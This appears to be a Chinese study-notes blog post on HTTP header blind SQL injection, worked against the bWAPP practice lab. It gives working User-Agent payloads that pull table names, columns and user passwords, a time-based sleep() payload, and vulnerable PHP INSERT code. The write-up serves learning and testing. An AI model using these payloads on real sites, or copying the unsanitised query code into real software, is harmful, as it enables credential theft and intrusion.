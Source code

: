 ```yaml
---
title: 《Web攻防安全实战》学习总结：SQL注入实战——HTTP头盲注
date: 2021-01-09 16:48:24
index_img: /img/websecurity.png
banner_img: /img/websecurity.png
tags:
  - 安全
  - Web安全
categories:
  - Web安全
  - SQL注入
---
```

# HTTP头盲注
## HTTP头部注入
针对HTTP的请求头，如果不进行过滤和转义，直接与数据库进行交互，就容易被利用进行SQL注入攻击，即HTTP头注入。
## HTTP头盲注实战
### 判断注入点
选择bwapp相应的漏洞靶场SQL Injection - Stored (User-Agent)，页面会记录登录设备的UA和IP。
![fileupload](/img/sql/httpheader/httpheader1.png)
burpsuite抓包修改UA值，发现UA可控，且添加单引号判断存在注入点：
![fileupload](/img/sql/httpheader/httpheader2.png)
![fileupload](/img/sql/httpheader/httpheader3.png)
通过页面判断，ip和UA的值都是由用户输入后端服务的，猜测使用insert ... value ... 语句，构造语句，同时利用 # 闭合sql语句排除干扰，观察页面，ip和UA被成功修改：
![fileupload](/img/sql/httpheader/httpheader4.png)
![fileupload](/img/sql/httpheader/httpheader5.png)
简单构造注入语句，查询数据库名称：
![fileupload](/img/sql/httpheader/httpheader7.png)
![fileupload](/img/sql/httpheader/httpheader8.png)
### 获取用户表名
构造语句获取数据库表：
![fileupload](/img/sql/httpheader/httpheader9.png)
发现每次返回数据行数限制为1行，修改语句再次执行，返回的表名为blog不是用户表：
![fileupload](/img/sql/httpheader/httpheader10.png)
通过offset控制返回第几条，当offset=3时，返回用户表users：
![fileupload](/img/sql/httpheader/httpheader11.png)
```
123',(select table_name from information_schema.tables where table_schema=database() limit 1 offset 3)); #
```
### 获取用户表信息
过程和上述类似，利用以下指令即可查得id,继续利用偏移查询 id login password 分别位于偏移 0, 1, 2 处
```
111', (select column_name from information_schema.columns where table_name='users' limit 1 offset 0)); #
```
![fileupload](/img/sql/httpheader/httpheader12.png)
### 获取用户名密码
```
111', (select login from users limit 1 offset 2)); #
```
将login替换为id、password 同时修改offset值，即可获得相应用户的密码信息。
![fileupload](/img/sql/httpheader/httpheader13.png)

## 漏洞进阶
### 修改靶场代码逻辑
```
// Writes the entry into the database
$sql = "INSERT INTO visitors (date, user_agent, ip_address) VALUES (now(), '" . sqli($user_agent) . "', '" . $ip_address . "')";
```
原始的逻辑，ip是放在ua之后显示的，现在修改代码逻辑，将ip与ua替换位置：
```
$sql = "INSERT INTO visitors (date, ip_address, user_agent) VALUES (now(), '" . sqli($ip_address) . "', '" . $user_agent . "')";

```
这样处理后，服务端就不会返回我们构造的上述SQL注入语句的执行结果了。
此时可采用基于时间盲注的方式，通过页面的响应时间，判断SQL语句是否成功执行，再通过脚本自动测试完成信息获取：
```
123'+ (select 1 from (select user()) as t where length((select database())) = 5 and sleep(2))); #
```
